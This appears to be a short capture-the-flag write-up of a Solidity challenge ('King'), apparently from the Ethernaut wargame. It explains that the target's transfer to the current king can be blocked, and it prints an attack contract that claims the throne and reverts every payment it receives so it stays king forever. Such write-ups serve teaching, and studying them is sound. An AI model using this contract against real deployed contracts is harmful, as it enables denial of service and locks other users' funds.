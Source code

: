 ```
    return king;
  }
}

```
### Solution

The vulnerability that is exposed in the contract is in transfer step: `king.transfer(msg.value);`. If we get the throne then we can basically revert any transfer call and so we can be Kings forever.

```
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

contract King {
    constructor(address payable kingdomAddress) payable {
        address(kingdomAddress).call{gas: 1000000, value: 1 ether}("");
    }
    receive() external payable {
        revert('I want to be the king!');
    }
}

```
